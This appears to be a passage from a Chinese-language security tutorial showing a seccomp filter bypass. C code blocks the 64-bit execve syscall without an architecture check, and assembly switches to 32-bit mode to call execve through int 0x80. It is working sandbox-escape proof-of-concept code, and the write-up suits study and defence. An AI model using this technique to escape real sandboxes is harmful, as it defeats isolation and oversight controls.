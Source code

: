 ```cpp
#include <stdio.h>
#include <stdlib.h>
#include <sys/prctl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>

extern void my_execve(void *, void *, void *);

char *args[] = {
	"/bin/ls",
	0,
};

int main() {
	struct sock_filter filter[] = {
		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, 0), // offset = 0 -> nr
		BPF_JUMP(BPF_JMP + BPF_JEQ, 59, 1, 0), // SYS_execve = 59
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
	};

	struct sock_fprog prog = {
		.len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
		.filter = filter,
	};

	prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
	prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);

	my_execve(args[0], args, 0);
}
```

`my_execve` 实现如下，因为 32 位下栈会少一半，所以为了防止程序 crash 需要搬一下栈：

```nasm
section .text
global my_execve

my_execve:
	lea rsp, [stack]
	call to32
	mov eax, 11
	mov ebx, edi
	mov ecx, esi
	int 0x80
	ret
to32:
	mov DWORD [rsp + 4], 0x23
	retf

section .bss
	resb 0x400
stack:
```
